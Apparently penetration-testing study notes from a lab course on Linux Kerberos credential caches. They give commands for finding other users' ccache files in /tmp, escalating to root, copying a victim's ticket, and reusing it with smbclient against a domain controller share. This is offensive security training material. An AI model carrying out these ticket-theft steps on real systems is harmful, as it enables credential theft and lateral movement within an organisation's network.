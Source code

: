 
## 💾 ccache Files (Credential Cache)

### Understanding ccache Files
**ccache files** are temporary credential caches that store active Kerberos tickets. They remain valid during user sessions and are automatically created upon domain authentication.

### Finding ccache Files

#### Environment variable check
```bash
# Check current user's ccache location
env | grep -i krb5
echo $KRB5CCNAME

# Example output:
KRB5CCNAME=FILE:/tmp/krb5cc_647402606_qd2Pfh
```

#### Search /tmp directory
```bash
# List all ccache files
ls -la /tmp/krb5cc_*

# Example output:
-rw------- 1 julio@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 16:38 krb5cc_647401106_tBswau
-rw------- 1 david@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 15:23 krb5cc_647401107_Gf415d  
-rw------- 1 carlos@inlanefreight.htb domain users@inlanefreight.htb 1433 Oct  6 15:43 krb5cc_647402606_qd2Pfh
```

### Abusing ccache Files

#### Root privilege requirement
```bash
# ccache files are protected by permissions
# Need root access to read other users' ccache files

sudo su
# OR use privilege escalation technique
```

#### Importing ccache files
```bash
# Copy target ccache file
cp /tmp/krb5cc_647401106_HRJDux /root/julio_ticket

# Set environment variable
export KRB5CCNAME=/root/julio_ticket

# Verify ticket import
klist

# Test access with imported ticket
smbclient //dc01/C$ -k -c ls -no-pass
```

---